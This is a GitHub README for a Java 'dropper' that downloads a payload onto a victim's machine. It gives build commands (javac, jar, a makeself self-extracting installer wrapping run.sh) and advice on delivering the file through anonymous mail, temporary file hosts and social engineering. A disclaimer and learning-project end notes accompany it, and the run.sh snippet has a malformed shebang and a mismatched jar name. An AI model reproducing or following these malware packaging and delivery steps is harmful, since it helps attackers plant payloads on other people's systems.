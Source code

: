 # Java-Dropper
![vx](https://art.vx-underground.org/art/c92ebe07-2ac3-4dce-8168-b418e20c1579.png)
No more clumsy Payload transfer methods, when you have the Ultimate droppers available.
This is simply a dropper which helps in delivering the payload to your victim. Let's go through the process step-by-step.

# Requirements
![logo](https://cdn.icon-icons.com/icons2/2699/PNG/512/java_logo_icon_168609.png)
1. JDK==17.0.10 (obvious)
- It comes preinstalled on most of the linux distros, If you don't have it, install it.
- Check by running the command: ```java --version```
2. Install **makeself**
- ```sudo apt install makeself``` and once it's done, we're good to go.
3. Assuming that your are testing this dropper on another victim machine which is **yours**.
  - Boot up your Vmware/Virtualbox and load your victim machine but do not power it on yet.

# Simple Instructions

1. Create a dir ```mkdir dropper_file```  which we will be using to store all the necessary files.
2. Download the **Dropper.java** file from this repo and store it in the above created dir, make necessary changes to it such as changing the payload and victim's default download path.
3. Run ```javac Dropper.java```, It will make a class file upon compilation. You'll get a class file and keep it with you.
4. create a jar file: ```jar cvfe Dropper.jar healthcare Dropper.class```
5. Make a shell script: ```touch run.sh``` open the file
   ```pluma run.sh``` and include the following in that script.
```
!#/bin/bash
 java -jar dropper.jar
```

  - The ``run.sh`` serves as a supporting script to make the jar file executed immediately, save the file in the same direcory.

6. run
```makeself --notemp /home/<user>/dropper_files /home/<user>/dropper_files/dropper_installer.sh "installer" ./run.sh```

you can name the jar file as you wish, i'm using installer as the name, replace the user with your actual sys user and run the command. If you have done everything correctly, you can see the ```dropper_installer.sh``` file.

- once that's done, we can now transfer this ***dropper_installer.sh** to the victim's machine by using any anonymous mail or by any other means,I suggest using temporary mails if you're doing on a real victim which i highly suggest you to not do. After the victim double clicks on the jar file It should automatically execute the files we placed inside and download the payload to the specified directory in victim's machine. An attacker can meticulously craft a social engineering attack on the victim and make him/her click on the unsuspected file, which in returns downloads the payload into the machine. There are multiple ways that it can be executed but this is a simple one out of them.
# Screenshots

<a href="https://ibb.co/3v3vxbL"><img src="https://i.ibb.co/xYkYnbR/show-dropper.jpg" alt="show-dropper" border="0"></a>
 ![img](https://i.ibb.co/vVw0TCz/installer.jpg)
 
# Payload on Victim's System

- once the victim double clicks on the shell script it would automatically extract the jar file and then download the payload.
<a href="https://ibb.co/3CH1Kbg"><img src="https://i.ibb.co/bKn1tVc/payload.jpg" alt="payload" border="0"></a>

# Some Resources that Might Help
> - [File.Io](https://www.file.io/)
> - [AnonMail](https://anonymous-mail.maildim.com/)
> - [Upload Anonymously](https://anonsharing.com/)
> - [image hosting](https://imgbb.com/)
> - Thanks to VX-UnderGround for their awesome art.
[VX-UG](https://art.vx-underground.org/index.html)

# Disclaimer
![img](https://www.socinvestigation.com/wp-content/uploads/2021/01/malware-696x464.jpg)

All this is done, to show how the whole malware drop scenarios work, don't use this to send the payloads to real victims, which will land you in bad position. While it may seem cool to do, It's not. It is completely unethical and makes the victim cause damage. I hold no responsiblity and liability in such cases. I want you to know how this works by testing this stuff on your own system. 

# End notes
![gif](https://www.gifcen.com/wp-content/uploads/2022/06/lofi-gif-6.gif)

I have initially started this to see how the droppers work, java seems to be a good option but still It's not ideal, I am aware of it's flaws, to do all of this stuff both victim and attacker needs to have JDK installed on their machines, which is not possible in real world scenarios unless we're lucky. Even after making the victim click on it, sometimes the kernel may stop the script from executing(we're talking about linux here so) mainly if it's not a priveleged user runnning it. At most of the cases It will only execute with a sudo command, which makes the whole payload droppping scenario senseless from the roots, It's my first time trying this, as for the first time, I can say that I understood how the malware gets distributed and how linux is more secure than windows, the same scenario can be done in windows too, but I don't want to to brick my core OS, I'll config some windows 7/10 to test them later hopefully. The code is not mine, It is open sourced, I have made modifications on it and made other changes that suit my needs. After spending a full day testing again and again on both my Parrot, Kali machines, I have learnt a few things on this little project, I guess at the end of the day, only learning matters and not the end goal. If you think I've made some blunders(which I am sure that I did), please contribute and modify the necessary changes, If you have more ideas, make a pull request. I'll be more than happy to work on this and learn new stuff.
 

